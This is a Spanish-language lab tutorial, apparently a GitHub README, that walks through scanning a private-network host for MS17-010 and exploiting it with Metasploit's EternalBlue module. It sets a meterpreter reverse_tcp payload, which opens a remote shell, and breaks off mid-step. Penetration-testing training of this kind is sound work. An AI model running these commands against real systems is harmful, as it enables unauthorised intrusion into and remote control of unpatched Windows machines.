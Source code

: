 ![image](https://user-images.githubusercontent.com/50930193/121088334-335d0000-c7ab-11eb-845e-d568ed7b1b46.png)


El primer paso es ubicar un módulo que permita validar si el servicio es vulnerable
```
search ms17
```
![image](https://user-images.githubusercontent.com/50930193/121089089-3b696f80-c7ac-11eb-945d-6f8f13081ac2.png)

ahora podemos usar el comando que carga el módulo de scanner
```
use auxiliary/scanner/smb/smb_ms17_010
```
![image](https://user-images.githubusercontent.com/50930193/121089143-51773000-c7ac-11eb-8b4a-64ff644a7690.png)

Establecer el valor RHOST, allí se debería incluir el IP del Target
```
set RHOSTS 192.168.153.181
```
![image](https://user-images.githubusercontent.com/50930193/121089224-72d81c00-c7ac-11eb-9c47-a32fa58313c6.png)

Corremos el scnaer y nos cercioramos que el target es vulnerable

```
run
```
![image](https://user-images.githubusercontent.com/50930193/121089320-969b6200-c7ac-11eb-81b0-4f44522b9713.png)

## Explotación de Vulnerabilidad con Metasploit

Ubicar el módulo de exploit a utilizar, para ello, es necesario que podamos al igual que en el caso anterior ubiquemos el exploita a utilizar

![image](https://user-images.githubusercontent.com/50930193/121092507-44a90b00-c7b1-11eb-9580-dbe088f82da8.png)

ahora podemos usar el comando que carga el módulo de exploit
```
use exploit/windows/smb/ms17_010_eternalblue
```

![image](https://user-images.githubusercontent.com/50930193/121093461-ae75e480-c7b2-11eb-901f-afe0e36520a3.png)

Si bien el resultado da cuenta de que se está usando un payload, se recomienda seterarlo
```
set payload windows/x64/meterpreter/reverse_tcp
```
Revise que parámetros son necesarios incluir en este payload
```
show options
```
![image](https://user-images.githubusercontent.com/50930193/121093956-70c58b80-c7b3-11eb-843e-130492e04f80.png)

Considere los parámetros no opcionales, si no encontrara los parametros llenos seteelos de la siguiente manera:
